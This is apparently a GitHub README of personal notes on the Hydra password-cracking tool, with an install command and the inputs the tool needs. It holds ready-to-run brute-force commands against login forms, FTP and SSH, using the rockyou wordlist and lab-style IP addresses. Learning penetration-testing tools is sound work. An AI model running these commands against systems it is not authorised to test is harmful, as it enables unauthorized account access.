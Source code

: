 [![Build Status](https://travis-ci.org/joemccann/dillinger.svg?branch=master)](https://travis-ci.org/joemccann/dillinger)

# hydra
[https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra]
<hr/>

## install hydra in Linux
```sh
sudo dnf -y install hydra
```

## How hydra works
Using Hydra to Brute-Force Our First Login Page

Hydra is a fairly straight forward tool to use, but we have to first understand what it needs to work correctly. We’ll need to provide the following in order to break in:

- Login or Wordlist for Usernames
- Password or Wordlist for Passwords
- IP address or Hostname
- HTTP Method (POST/GET)
- Directory/Path to the Login Page
- Request Body for Username/Password
- A Way to Identify Failed Attempts



> hydra -l <username> -p <password> <server> <service> -s <port> -t <thread> -o <output>
> -L <users> -P <passwords>

```sh
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"
```

```sh
hydra -L username.txt -P password.txt 192.168.1.37 ftp -s 21
```

hydra -l <username> -p <password> ssh://<ip>